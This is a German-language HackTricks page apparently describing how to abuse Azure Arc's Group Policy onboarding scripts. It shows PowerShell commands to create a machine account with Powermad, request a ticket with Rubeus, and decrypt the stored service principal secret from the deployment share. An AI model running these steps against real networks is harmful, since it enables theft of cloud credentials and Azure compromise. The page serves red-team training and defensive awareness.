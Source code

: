 # Az - Arc verwundbares GPO Bereitstellungsskript

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}

### Identifizierung der Probleme

Azure Arc ermöglicht die Integration neuer interner Server (verbundene Domänenserver) in Azure Arc mithilfe der Group Policy Object-Methode. Um dies zu erleichtern, stellt Microsoft ein Bereitstellungstoolkit zur Verfügung, das für den Start des Onboarding-Verfahrens erforderlich ist. Im ArcEnableServerGroupPolicy.zip-Datei finden sich die folgenden Skripte: DeployGPO.ps1, EnableAzureArc.ps1 und AzureArcDeployment.psm1.

Beim Ausführen des DeployGPO.ps1-Skripts werden die folgenden Aktionen ausgeführt:

1. Erstellt die Azure Arc Servers Onboarding GPO innerhalb der lokalen Domäne.
2. Kopiert das EnableAzureArc.ps1 Onboarding-Skript in den vorgesehenen Netzwerkfreigabe, die für den Onboarding-Prozess erstellt wurde und auch das Windows-Installationspaket enthält.

Beim Ausführen dieses Skripts müssen Systemadministratoren zwei Hauptparameter angeben: **ServicePrincipalId** und **ServicePrincipalClientSecret**. Darüber hinaus sind weitere Parameter wie die Domäne, der FQDN des Servers, der die Freigabe hostet, und der Freigabename erforderlich. Weitere Details wie die Mandanten-ID, die Ressourcengruppe und andere notwendige Informationen müssen ebenfalls dem Skript bereitgestellt werden.

Ein verschlüsseltes Geheimnis wird im AzureArcDeploy-Verzeichnis auf der angegebenen Freigabe unter Verwendung der DPAPI-NG-Verschlüsselung generiert. Das verschlüsselte Geheimnis wird in einer Datei mit dem Namen encryptedServicePrincipalSecret gespeichert. Beweise dafür finden sich im DeployGPO.ps1-Skript, wo die Verschlüsselung durch den Aufruf von ProtectBase64 mit $descriptor und $ServicePrincipalSecret als Eingaben erfolgt. Der Descriptor besteht aus den SID der Domain Computer und der Domain Controller-Gruppe, wodurch sichergestellt wird, dass das ServicePrincipalSecret nur von den Sicherheitsgruppen der Domain Controller und Domain Computer entschlüsselt werden kann, wie in den Kommentaren des Skripts vermerkt.
```powershell
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```
### Exploit

Wir haben die folgenden Bedingungen:

1. Wir haben erfolgreich das interne Netzwerk durchdrungen.
2. Wir haben die Fähigkeit, ein Computer-Konto innerhalb von Active Directory zu erstellen oder die Kontrolle darüber zu übernehmen.
3. Wir haben einen Netzwerkfreigabe entdeckt, die das AzureArcDeploy-Verzeichnis enthält.

Es gibt mehrere Methoden, um ein Maschinenkonto in einer AD-Umgebung zu erhalten. Eine der häufigsten ist die Ausnutzung des Maschinenkonto-Quotas. Eine andere Methode besteht darin, ein Maschinenkonto durch verwundbare ACLs oder verschiedene andere Fehlkonfigurationen zu kompromittieren.
```powershell
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
Sobald ein Maschinenkonto erlangt wurde, ist es möglich, sich mit diesem Konto zu authentifizieren. Wir können entweder den Befehl runas.exe mit dem netonly-Flag verwenden oder Pass-the-Ticket mit Rubeus.exe nutzen.
```powershell
runas /user:fake01$ /netonly powershell
```

```powershell
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```
Indem wir das TGT für unser Computer-Konto im Speicher haben, können wir das folgende Skript verwenden, um das Geheimnis des Dienstprinzipals zu entschlüsseln.
```powershell
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```
Alternativ können wir [SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG) verwenden.

An diesem Punkt können wir die verbleibenden Informationen sammeln, die benötigt werden, um eine Verbindung zu Azure herzustellen, aus der ArcInfo.json-Datei, die im selben Netzwerkfreigabe wie die Datei encryptedServicePrincipalSecret gespeichert ist. Diese Datei enthält Details wie: TenantId, servicePrincipalClientId, ResourceGroup und mehr. Mit diesen Informationen können wir Azure CLI verwenden, um uns als der kompromittierte Dienstprinzipal zu authentifizieren.

## References

* [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Arc/)

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}

